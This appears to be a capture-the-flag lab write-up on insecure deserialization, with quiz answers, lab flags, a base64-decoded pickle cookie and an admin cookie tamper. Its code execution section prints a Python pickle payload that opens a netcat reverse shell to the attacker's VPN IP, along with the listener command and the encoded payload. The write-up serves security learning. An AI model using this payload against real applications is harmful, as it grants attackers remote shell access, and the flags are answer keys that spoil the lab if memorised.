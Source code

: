 # Task 21\~26

## Insecure Deserialization <a href="#insecure-deserialization" id="insecure-deserialization"></a>

### Who developed the Tomcat application? <a href="#who-developed-the-tomcat-application" id="who-developed-the-tomcat-application"></a>

#### Answer <a href="#answer" id="answer"></a>

The Apache Software Foundation

### What type of attack that crashes services can be performed with insecure deserialization? <a href="#what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization" id="what-type-of-attack-that-crashes-services-can-be-performed-with-insecure-deserialization"></a>

#### Answer <a href="#answer-1" id="answer-1"></a>

denial of service

## Insecure Deserialization - Objects <a href="#insecure-deserialization---objects" id="insecure-deserialization---objects"></a>

## Select the correct term of the following statement: <a href="#select-the-correct-term-of-the-following-statement" id="select-the-correct-term-of-the-following-statement"></a>

#### Answer <a href="#answer-2" id="answer-2"></a>

A Behaviour

## Insecure Deserialization - Deserialization <a href="#insecure-deserialization---deserialization" id="insecure-deserialization---deserialization"></a>

### What is the name of the base-2 formatting that data is sent across a network as? <a href="#what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as" id="what-is-the-name-of-the-base-2-formatting-that-data-is-sent-across-a-network-as"></a>

#### Answer <a href="#answer-3" id="answer-3"></a>

binary

## Insecure Deserialization - Cookies <a href="#insecure-deserialization---cookies" id="insecure-deserialization---cookies"></a>

<figure><img src="../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

### If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be? <a href="#if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be" id="if-a-cookie-had-the-path-of-webappcomlogin--what-would-the-url-that-the-user-has-to-visit-be"></a>

#### Answer <a href="#answer-4" id="answer-4"></a>

webapp.com/login

### What is the acronym for the web technology that Secure cookies work over? <a href="#what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over" id="what-is-the-acronym-for-the-web-technology-that-secure-cookies-work-over"></a>

#### Answer <a href="#answer-5" id="answer-5"></a>

https

## Insecure Deserialization - Cookies Practical <a href="#insecure-deserialization---cookies-practical" id="insecure-deserialization---cookies-practical"></a>

### 1st flag (cookie value) <a href="#1st-flag-cookie-value" id="1st-flag-cookie-value"></a>

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```shell
echo -n "gAN9cQAoWAkAAABzZXNzaW9uSWRxAVggAAAAZDYzOWIzNzUwMjM5NDM3ZTk4ZGZmOWM3NjEwOTYxZjlxAlgLAAAAZW5jb2RlZGZsYWdxA1gYAAAAVEhNe2dvb2Rfb2xkX2Jhc2U2NF9odWh9cQR1Lg==" |base64 --decode
```

```md
}q(X    sessionIdqX d639b3750239437e98dff9c7610961f9qX
                                                      encodedflagqXTHM{good_old_base64_huh}qu.%
```

#### Answer <a href="#answer-6" id="answer-6"></a>

qXTHM{good\_old\_base64\_huh}

### 2nd flag (admin dashboard) <a href="#2nd-flag-admin-dashboard" id="2nd-flag-admin-dashboard"></a>

Change `user` to `admin`

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

#### Answer <a href="#answer-7" id="answer-7"></a>

THM{heres\_the\_admin\_flag}

## Insecure Deserialization - Code Execution <a href="#insecure-deserialization---code-execution" id="insecure-deserialization---code-execution"></a>

1. on local machine

Run nc listener

```
nc -lvnp 4444
```

Edit the python script with your VPN IP

```python
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat 10.18.1.159 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

Run python script and get the base64 command.

```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTguMS4xNTkgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Edit the encodedPayload and get remote access

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cat /home/cmnatic/flag.txt
```

#### Answer <a href="#answer-8" id="answer-8"></a>

4a69a7ff9fd68
